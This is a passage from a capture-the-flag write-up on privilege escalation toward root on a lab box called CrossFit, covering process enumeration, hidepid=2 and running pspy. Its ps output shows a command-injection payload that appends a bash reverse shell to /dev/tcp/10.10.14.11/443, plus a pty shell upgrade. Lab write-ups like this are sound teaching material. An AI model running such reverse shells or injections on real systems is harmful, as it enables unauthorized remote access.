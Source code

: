 
## Shell as root

### Enumeration

One thing I actually noticed in my first shell was that running `ps auxww`
only returned processes for the `www-data` user. The same has been true for
each other user so far, including isaac:

    
    
    isaac@crossfit:~/send_updates/includes$ ps auxww
    USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
    isaac     8383  0.0  0.0   2388   756 ?        Ss   17:26   0:00 /bin/sh -c /usr/bin/php /home/isaac/send_updates/send_updates.php
    isaac     8385  0.3  0.5  89096 22796 ?        S    17:26   0:00 /usr/bin/php /home/isaac/send_updates/send_updates.php
    isaac     8415  0.0  0.0   2388   760 ?        S    17:26   0:00 sh -c /usr/bin/mail -s 'CrossFit Club Newsletter' --wrong || bash -c "bash -i &> /dev/tcp/10.10.14.11/443 0>&1" '1'
    isaac     8417  0.0  0.0   6644  3168 ?        S    17:26   0:00 bash -c bash -i &> /dev/tcp/10.10.14.11/443 0>&1 1
    isaac     8418  0.0  0.1   7900  4596 ?        S    17:26   0:00 bash -i
    isaac     8684  0.0  0.2  16856  8608 ?        S    17:27   0:00 python3 -c import pty;pty.spawn("bash")
    isaac     8685  0.0  0.1   8344  5148 pts/3    Ss   17:27   0:00 bash
    isaac     8967  0.0  0.0  10632  3108 pts/3    R+   17:29   0:00 ps auxww
    

This happens when `/proc` is mounted using the `hidepid=2` options:

    
    
    isaac@crossfit:~/send_updates/includes$ mount
    sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
    proc on /proc type proc (rw,nosuid,nodev,noexec,relatime,hidepid=2)
    ...[snip]...
    

After significant enumeration without finding much to look at, I ran
[pspy](https://github.com/DominicBreuker/pspy). I uploaded it over FTP:

    
    
    lftp ftpadm@ftp.crossfit.htb:/messages> put /opt/pspy/pspy64
    3078592 bytes transferred  
    

isaac can reach that directory to get it out and move it elsewhere before it
gets deleted:

    
    
    isaac@crossfit:/srv/ftp/messages$ mv pspy64 /dev/shm
    isaac@crossfit:/srv/ftp/messages$ cd /dev/shm
    isaac@crossfit:/dev/shm$ chmod +x pspy64 
    

Running it to look for process events isn’t useful, as it will only turn up
stuff run by isaac. The other feature `pspy` can do is to look for file events
using the `-f` option. There’s a lot going on. I killed it and started again,
this time just looking files in the main directories in the path, `./pspy64 -f
-r /usr/bin -r /bin -r /usr/local/bin`. On letting that run for a few minutes,
some interesting things jump out running every minute:
